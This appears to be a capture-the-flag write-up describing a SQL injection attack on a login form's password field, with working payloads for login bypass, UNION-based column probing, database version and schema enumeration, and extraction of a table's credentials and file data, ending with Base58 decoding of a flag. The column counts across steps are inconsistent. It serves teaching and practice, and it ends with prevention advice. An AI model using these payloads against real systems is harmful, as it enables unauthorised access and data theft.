





### **SQL Injection and Extracting Sensitive Data**

In this challenge, we have a form with two fields: `username` and `password`. Our goal is to exploit an SQL Injection vulnerability to extract sensitive data from the database.

---

#### **Step 1: Testing a Basic SQL Injection**

I started by testing a simple SQL injection in the `password` field. Here is the payload used:

`username=admin&password='OR''='`

**Result:**  
The server returns a list of users present in the database:

---

#### **Step 2: Determining the Number of Columns**

Next, I tried to determine the number of columns required for a valid SQL query. I used this payload:

`username=admin&password=' UNION SELECT null, null, null, null, null, null --`

An error was triggered, indicating that 5 columns are required for a valid injection.

---

#### **Step 3: Retrieving the Database Version**

With the correct number of columns, I used a payload to retrieve the database version:

`username=a&password=' UNION SELECT 1, @@version, 3-- -`

**Result:**

This indicates that the database is running MySQL version **5.7.44**.

---

#### **Step 4: Listing Available Tables**

To list the available tables in the database, I used the following payload:

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -`

**Result:**

---

#### **Step 5: Listing the Columns of a Table**

Once the `blueprints` table was identified, I listed its columns using this payload:

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -`

**Result:**

---

#### **Step 6: Extracting Data from the Table**

I then extracted the contents of the `blueprints` table by concatenating the columns:

`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--`

**Result:**

---

#### **Step 7: Decoding the Extracted Data**

Upon further inspection, I found an interesting string associated with the `secret_key.txt` file:

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

By decoding it using **Base58**, I found the flag.

 

---

### **Conclusion**

This challenge demonstrates the potential impact of an SQL Injection vulnerability. With well-crafted payloads, it is possible to extract sensitive information such as table names, column names, and even critical data. The final step of decoding the retrieved data was essential to solving the challenge. To prevent such attacks, always sanitize inputs and use **prepared statements** when interacting with databases.